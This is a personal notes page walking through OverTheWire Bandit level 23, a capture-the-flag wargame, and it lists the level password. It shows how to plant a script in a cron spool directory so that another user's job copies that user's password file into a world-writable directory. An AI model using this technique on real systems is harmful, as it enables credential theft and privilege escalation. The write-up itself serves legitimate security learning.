 **Password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
**Tools**: [[watch]], [[Bash scripting]], [[cron]]

**Prev**: [[Level 22]]
**Next**: [[Level 24]]
## Solution
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

The script is being executed in this level is
![[Pasted image 20250410104640.png]]
basically `bandit24` are executing all files which owner is `bandit23` (us), then we need create a script to read and save the password of `bandit24`
we need a space to write so u can create a temp directory with `mktemp -d`, and provide the permissions required for others can read write and execute inside.

```bash
chmod o+rwx /tmp/tmp.30cA3NpAiw$
```

then we can create a `script.sh`
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.30cA3NpAiw$/bandit24.pass
```
and give it permissions of execution
```bash
chmod +x script.sh
```

with this we have all ready, just need copy `script.sh` to directory when cronjob are executing scripts `/var/spool/bandit24/foo/`
```bash
cp script.sh /var/spool/bandit24/foo/
```
and can use [[watch]] to listen when file `bandit24.pass` be created.
```bash
watch -n 1 'ls -la'
```
each sec the shell exec `ls -la` to display changes.